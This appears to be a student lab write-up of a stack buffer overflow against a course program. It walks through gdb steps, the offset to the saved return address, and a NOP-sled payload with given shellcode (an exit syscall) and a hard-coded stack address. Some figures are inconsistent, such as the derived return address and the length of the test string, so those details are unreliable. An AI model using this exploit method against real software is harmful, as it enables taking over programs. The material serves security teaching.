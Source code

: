 # Task2 Solution steps: 
* ![alt text](image-16.png)
* now we need to be able to craft a payload, and the shell code is already given in hex. 
* so we know that the length of the buffer is 32, and the layout of the memory as follows: 
* ![alt text](image-17.png)
    1. return address
    2. padding
    3. Buffer size (32 bytes)
    4. shell code which should be added. ( this part is added after the attack is made.)
* so our goal is to fill the buffer in such a way that we over write the **normal return address** and write **our address** which points at the location of the malicious code. 
* so we can run the program using gdp using the following commands: 
    > make clean 

    > make debug

    > gdb ./build/bin/btu 

* set break point at the vulnerable position in remove method
    > b check_password

* run the program and check the case of invalid password (make sure you have inserted a user with ID 1024)
    > run remove 1024 aaaaa

* now we need to check the return address and the address of the vulnerable buffer
    > info frame

    > p &lhs

* now we can see the following result: 
    - ![alt text](image-18.png)
    - return address is **0xffffc8b0**, because from the screenshot, GDB output says that **Stack level 0, frame at 0xffffdc70** which means that the frame starts at this address, and we know that the return address is stored at the top of the stack right after the local variables and saved registers
    - the vulnerable buffer address is **0xffffc878**
    - notice that the return address after excuting the check_password is **saved eip = 0x804b459** this is before performing the buffer overflow attack, and you know that this will be our target, that we will need to change this address to make it point to the place where we have our shell code. 
    - this imply that we need to have b0 - 78 = 38 in hex -> 56 - 4 bytes in decimal to be able to overwrite the return address
    - notice the -4 because we want to reach the starting index of the return, while the return address itself is 4 bytes. 
    - thus our payload should be as follows in order to overwrite the return address
        > 'A' * 52 + (4 bytes address)
    - lets try and see if this will be the case
        1. on adding this payload: **AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA9999**
        2. before the payload is copied into the buffer this was the info: 
            - ![alt text](image-19.png)
        3. after the payload is copied into the buffer this is the info; 
            - ![alt text](image-20.png)
        4. and we know that 0x39 is the hex representation of the ASCII of the char 9, this mean that we have successfully overwritten the return address with dummy address.
    - now the task will be to over write this address with meaningful address in which we store our mal code
    - using the **NOP Sled**, our payload should be the following: 
        > 42 * 0x90 + "x31 xc0 xb0 x01 x31 xdb xb3 x05 xcd x80" + return address to the begining of our buffer.
    - so I should try the following and lets see what will happen: 
        > 42 * 0x90 + "x31 xc0 xb0 x01 x31 xdb xb3 x05 xcd x80" + 0xffffc878
    - building it in little indian formate: 
        > 90909090909090909090909090909090909090909090909090909090909090909090909090909090909031c0b00131dbb305cd8078c8ffff
    - on running the second trial I found that the address of the lhs array changed, and this mean that we will not be able to fix its address in our payload, so we need to find another buffer whose address will remain the same, so I checked the variable password, and I found that its address remains the same for the whole program, and that is becase we turned off the **ASLR**
        - ![alt text](image-21.png)
    - thus our address should be modified to be ffffc844, therefor this should be our payload: 
        > 90909090909090909090909090909090909090909090909090909090909090909090909090909090909031c0b00131dbb305cd8044c8ffff
    - now we will find another issue that our input is treated as string not hex, and this is an issue, to solve it we need to create a file containing our payload, and then load it to gdb.
        > 